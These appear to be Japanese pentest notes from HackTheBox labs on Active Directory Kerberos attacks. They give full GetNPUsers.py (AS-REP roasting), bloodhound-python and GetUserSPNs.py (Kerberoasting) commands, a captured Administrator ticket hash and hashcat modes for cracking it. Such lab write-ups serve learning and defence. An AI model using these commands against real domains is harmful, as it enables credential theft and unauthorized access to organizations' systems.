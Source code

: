## GetNPUsers.py (AS_REProast)

ASREPRoast攻撃により**Kerberos事前認証が不要**なユーザーを探索しそのパスワードハッシュの取得を狙う。

```
┌──(kali㉿kali)-[~]
└─$ GetNPUsers.py megabank.local/ -usersfile users.txt -format hashcat -outputfile hash.txt -no-pass -dc-ip 10.10.10.169
```


## Blood Hound from "LOCAL"

```
┌──(kali㉿kali)-[~]
└─$ bloodhound-python -u <domain account> -p <account's password> -ns <target's IP> -d <Domain> -c Al

(e.g.) $ loodhound-python -u svc_tgs -p GPPstillStandingStrong2k18 -ns 10.10.10.100 -d active.htb -c Al
```

## GetUserSPNs.py
指定したドメインアカウント下で動いてるSPN（Service Principal Name）を探す。

- -reqeust: TGS（サービスチケットを発行するサーバ）にリクエストを出す
- -save: TGSを保存する（<username>.ccacheのフォーマット）

```
┌──(kali㉿kali)-[~]
└─$ GetUserSPNs.py -request -dc-ip <target IP> <domain>/<user name> -save -outputfile GetUserSPNs.out

(e.g.) $ GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```
  
(c.f. [0xdf hacks stuff](https://0xdf.gitlab.io/2018/12/08/htb-active.html#decrypting-gpp-password))

> I’ll use the GetUserSPNs.py script from Impacket to get a list of service usernames which are associated with normal user accounts. 
It will also get a ticket that I can crack. 
  
***GetUserSPNs.pyの結果Administratorのハッシュが取れた！！！***
  
```
┌──(kali㉿kali)-[~]
└─$ ls
Administrator.acache
GetUserSPNs.out
  
┌──(kali㉿kali)-[~]
└─$ cat GetUserSPNs.out
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$25bac967bc8a16...
```
  
注意）このハッシュは（**krb5tgs**）のhashcatでは「-m 13100」。ハッシュタイプ18200はAS_Repのハッシュ。

  
### GetNPUsers.pyとGetUserSPNs.pyについて
#### GetNPUsers.py -> "AS_REPRoasting"（存在するユーザ名のみでOK）
-> ASREPRoastingとは、ケルベロスチケットを要求する際にpre-authenticationを必要としないようなアカウントに対して、"Does not require Pre-Authentication"なる権限を持っている場合に起こる。

  
#### GetUserSPNs.py -> "TGS_REPRoasting"（存在するユーザ名とそのパスワード（それなりの権限が必要かも））
-> そのドメイン内のアカウントのクリデンシャルを知っていれば、それは普通にTGSに対して要求できるでしょ。で、その**TGS_REPにはSPNのハッシュが含まれている**。これをofflineでクラックすると。（Activeの場合は、AdministratorがSPNに関連してたのがセキュリティホールかな）
